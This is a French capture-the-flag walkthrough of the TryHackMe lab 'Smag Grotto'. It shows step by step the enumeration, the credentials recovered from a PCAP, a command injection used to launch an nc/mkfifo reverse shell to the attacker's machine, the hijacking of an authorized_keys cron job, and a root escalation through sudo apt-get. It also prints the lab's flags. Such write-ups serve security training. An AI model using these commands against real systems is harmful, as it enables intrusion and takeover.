## 📌 Introduction

**Smag Grotto** est une machine Linux de difficulté facile/moyenne sur TryHackMe. Elle met en évidence les dangers de l'exposition de fichiers sensibles (PCAP), les vulnérabilités d'injection de commandes web (RCE), les mauvaises configurations de tâches planifiées (Cron) et enfin, les droits sudo mal attribués.

---

## 🔍 Étape 1 : Reconnaissance & Énumération

Nous commençons par un scan de ports classique avec Nmap pour découvrir les services exposés sur la cible (10.128.172.53).

code Bash

```
nmap -sC -sV 10.128.172.53
```

**Résultats :**


- **Port 22 / TCP** : OpenSSH 7.2p2 Ubuntu
    
- **Port 80 / TCP** : Apache httpd 2.4.18
    

Sachant qu'un serveur web tourne sur le port 80, nous ajoutons le nom de domaine smag.thm (trouvé dans les headers Nmap) à notre fichier /etc/hosts.

Nous lançons ensuite **Gobuster** pour énumérer les répertoires cachés du site :

code Bash

```
gobuster dir -u http://smag.thm/ -w /usr/share/wordlists/dirb/common.txt
```

Gobuster nous révèle un répertoire intéressant : /mail.



---

## 🕵️‍♂️ Étape 2 : Analyse réseau et Découverte de Credentials

En visitant http://smag.thm/mail/, nous tombons sur une page contenant des échanges d'e-mails entre développeurs, ainsi qu'un fichier à télécharger avec l'extension .pcap (une capture de trafic réseau).



Nous téléchargeons le fichier et l'ouvrons avec **Wireshark**. En analysant les trames HTTP, nous découvrons deux informations critiques :

1. Un nouveau sous-domaine : **development.smag.thm**
    
2. Des identifiants de connexion passés en clair (via une requête POST) : helpdesk / **cH4nG3M3_n0w**
 


Nous ajoutons **development.smag.thm** à notre **/etc/hosts** et accédons à ce nouveau site.



---

## 💥 Étape 3 : Exploitation (Initial Access)

En naviguant sur http://development.smag.thm/login.php, nous utilisons les identifiants trouvés dans le PCAP. La connexion réussit et nous redirige vers une interface d'administration (admin.php) nous demandant d'entrer une commande système.

C'est une vulnérabilité classique d'**Exécution de Commandes (RCE)**.  
Pour obtenir un accès direct à la machine, nous préparons un listener Netcat sur notre machine attaquante :

code Bash

```
nc -lvnp 4444
```

Dans le champ de commande sur la page web, nous injectons un Reverse Shell utilisant mkfifo :

code Bash

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <NOTRE_IP_VPN> 4444 >/tmp/f
```

Bingo ! Nous obtenons une connexion et sommes désormais connectés en tant que l'utilisateur **www-data**.



---

## 🚶‍♂️ Étape 4 : Mouvement Latéral (De www-data vers jake)

En explorant le dossier /home/jake, nous voyons le fichier user.txt, mais www-data n'a pas les permissions pour le lire. Il nous faut devenir l'utilisateur jake.



Corriger le terminal avec la commande  suivante : 

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
En vérifiant les tâches planifiées globales du système :

code Bash

```
cat /etc/crontab
```

Nous découvrons cette ligne suspecte :



code Bash

```
* * * * * root cat /opt/.backups/jake_id_rsa.pub.backup > /home/jake/.ssh/authorized_keys
```

**Explication :** Chaque minute, l'utilisateur root prend le contenu du fichier de sauvegarde /opt/.backups/jake_id_rsa.pub.backup et le copie dans les clés SSH autorisées de Jake.

La faille ? L'utilisateur www-data a les droits d'écriture sur ce fichier de backup !  
Nous générons donc une paire de clés SSH sur notre machine locale (Kali/Parrot) :

code Bash

```
ssh-keygen -t rsa -f jake_key
```

Nous copions notre nouvelle clé publique (jake_key.pub) et remplaçons le contenu du fichier de backup sur la machine cible :



code Bash

```
echo "ssh-rsa AAAAB3NzaC1...[notre_cle]...kali@kali" > /opt/.backups/jake_id_rsa.pub.backup
```

Après avoir attendu 1 minute que le Cron s'exécute, nous nous connectons en SSH depuis notre machine attaquante avec notre clé privée :

code Bash

```
ssh -i jake_key jake@10.128.172.53
```

Accès réussi ! Nous pouvons maintenant lire le premier flag :



code Bash

```
cat /home/jake/user.txt
```

>**User Flag**
>**iusGorV7EbmxM5AuIe2w499msaSuqU3j**

---

## 🚀 Étape 5 : Élévation de Privilèges (Root) 

Pour devenir root, la première étape consiste toujours à vérifier ce que notre utilisateur peut exécuter avec les privilèges d'administrateur :

code Bash

```
sudo -l
```

Le résultat nous indique que jake peut exécuter la commande **apt-get** en tant que root, sans mot de passe :



code Text

```
User jake may run the following commands on smag:
    (ALL : ALL) NOPASSWD: /usr/bin/apt-get
```

Nous consultons le célèbre site **GTFOBins**  [Cliquez ici](https://gtfobins.org/gtfobins/apt-get/#shell)pour voir comment exploiter apt-get. Nous apprenons qu'il est possible de forcer apt-get à exécuter une commande système arbitraire avant d'effectuer une mise à jour, grâce à l'option de configuration **Pre-Invoke**.

Nous lançons la commande suivante :

code Bash

```
sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
```

(Une autre variante courante aurait été : sudo apt-get changelog apt suivi de !/bin/sh dans le pager).

La commande s'exécute avec succès et nous donne immédiatement un shell avec les privilèges maximaux.


code Bash

```
# whoami
root
# cat /root/root.txt
```

>**Root Flag**
>**uJr6zRgetaniyHVRqqL58uRasybBKz2T**

+
